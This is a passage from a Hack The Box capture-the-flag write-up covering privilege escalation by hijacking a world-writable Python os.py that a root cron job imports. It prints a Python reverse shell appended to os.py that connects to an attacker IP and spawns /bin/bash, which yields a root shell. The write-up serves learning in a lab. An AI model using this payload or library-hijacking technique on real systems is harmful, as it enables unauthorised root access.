 The file `user.txt` is at `friend`'s home directory.


{% include image.html image_alt="38a7e04a.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/38a7e04a.png" %}


Moving on, I noticed two interesting pieces of information:

+ `/usr/lib/python2.7/os.py` is world-writable
+ `/opt/server-admin/report.py` imports the `os` module

I think I know where this is going: privilege escalation via python library hijacking. If I had to guess, I would say there's a `cron` job running as `root` that executes `/opt/server-admin/reporter.py`.

Here's the game plan.

First, I log it to `friend` via SSH. This is easy since I already have `friend`'s password. Then I `scp` a copy of `os.py` over to the box with the following code appended.

```
import os, socket, pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.12.246',4321))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

Two minutes later, a `root` shell appears in my `nc` listener.


{% include image.html image_alt="b9ab4cc0.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/b9ab4cc0.png" %}


Getting `root.txt` is trivial with a `root` shell.


{% include image.html image_alt="c0596592.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/c0596592.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/173
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/
